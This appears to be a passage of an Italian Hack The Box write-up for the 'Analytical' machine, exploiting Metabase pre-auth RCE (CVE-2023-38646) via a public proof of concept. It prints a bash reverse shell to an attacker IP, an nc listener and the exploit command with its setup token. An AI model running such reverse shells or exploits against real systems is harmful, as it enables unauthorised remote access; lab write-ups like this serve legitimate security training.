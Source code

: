 ```bash

Progress: 600 / 4990 (12.02%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/11/06 16:59:56 Finished
===============================================================
```

## GAINING AN INITIAL FOOTHOLD

Ho provato ad accedere col credenziali standard come admim:admin, ecc.. e anche l'indirizzo email trovato in precedenza ma non ho ottenuto nessun accesso.

Notiamo che il software si chiama Metabase cerchiamo su google se troviamo qualcosa Ho trovato [questa](https://github.com/m3m0o/metabase-pre-auth-rce-poc) repo su git hub dove si fa riferimento alla CVE-2023-38646 Metabase Pre-Auth RCE

Scarichiamo e vediamo se funziona.

Dalla info nel README.md vediamo che lo script python a bisogno di 3 parametri

* \-u = url
* \-t = setup token
* \-c = command

il setup token può essere ottenuto tramite l'endpoint /api/session/properties. ![](../zzz\_rev/attachments/analytical3.htb.png)

come comando mettiamo la seguente revshell

```bash
bash -i >& /dev/tcp/10.10.14.37/443 0>&1
```

ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical]
└─# nc -lvnp 443
listening on [any] 443 ...
```

impostiamo lo script e lo eseguiamo

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical/metabase-pre-auth-rce-poc]
└─# python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.37/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

```
